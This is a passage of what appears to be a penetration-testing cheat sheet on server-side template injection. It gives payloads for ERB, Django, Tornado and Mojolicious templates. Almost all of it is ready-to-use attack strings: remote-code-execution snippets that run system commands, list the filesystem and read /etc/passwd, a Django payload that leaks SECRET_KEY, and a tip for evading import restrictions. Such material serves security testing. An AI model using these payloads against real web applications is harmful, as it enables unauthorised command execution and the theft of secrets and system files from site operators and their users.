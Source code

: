 ### RCE:

```erb
<%= system("whoami") %>
<%= `id` %>
<%= Dir.entries("/") %>
<%= File.read("/etc/passwd") %>
```

---

##  **Django (Python)**

### Detection:

```django
{% debug %}
```
### Secrets:

```django
{{ settings.SECRET_KEY }}
```

---

##  **Tornado (Python)**

### Detection:

```tornado
{{ 7*7 }}  → 49
```

### RCE:

```tornado
{% import os %}
{{ os.system("id") }}
```

_Note: `import` might be restricted — try prototype/attribute tricks._

---

##  **Mojolicious (Perl)**

### RCE:

```perl
<%= system("id") %>
<%= `cat /etc/passwd` %>
```

---